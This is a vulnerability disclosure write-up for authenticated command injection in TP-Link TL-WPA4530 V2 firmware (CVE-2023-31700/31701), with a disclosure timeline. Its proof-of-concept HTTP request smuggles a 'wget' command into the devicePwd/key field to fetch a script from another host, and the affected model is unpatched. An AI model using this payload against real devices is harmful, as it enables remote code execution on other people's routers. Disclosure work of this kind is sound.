 # TP-Link TL-WPA4530 V2 Vulnerability

Several command injection vulnerabilities are found in the latest version of TL-WPA4530 V2 firmware

## Vulnerability Description

* Reference Firmware: [URL](https://static.tp-link.com/TL-WPA4530%20KIT(EU)_V2_170406.zip)
* Binary Path: /usr/bin/httpd
* Entry Url: /admin/powerline
* Affected Versions
  * [TL-WPA4530 V2 (EU)_170406](https://static.tp-link.com/TL-WPA4530%20KIT(EU)_V2_170406.zip)
  * [TL-WPA4530 V2 (EU)_161115](https://static.tp-link.com/TL-WPA4530(EU)_V2_161115.zip)

There is a command injection vulnerability in function `_httpRpmPlcDeviceAdd` and `_httpRpmPlcDeviceRemove`. After authentication, an attacker can set `devicePwd` or `key` field in requests to launch a remote-code-execution attack.

![devicePwd](devicePwd-vuln.png)

![devicePwd](key-vuln.png)

## PoC

PoC for triggering `_httpRpmPlcDeviceAdd`

```
POST /admin/powerline?form=plc_add HTTP/1.1
Host: 192.168.100.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Origin: http://192.168.100.2
Connection: close
Referer: http://192.168.100.2/
Cookie: Authorization=XXXXXXX

xxxxxxxxxxxxxxxxxxxxxxxxxx;wget http://192.168.100.254:8000/net.sh;
```

## Disclosure

* 2023-03-28: Report to TP-Link
* 2023-04-14: TP-Link responses but WPA4530 V2 is EOL model, which is not maintained
* 2023-04-15: Report to mitre
* 2023-05-17: CVE-2023-31700 and CVE-2023-31701 assigned

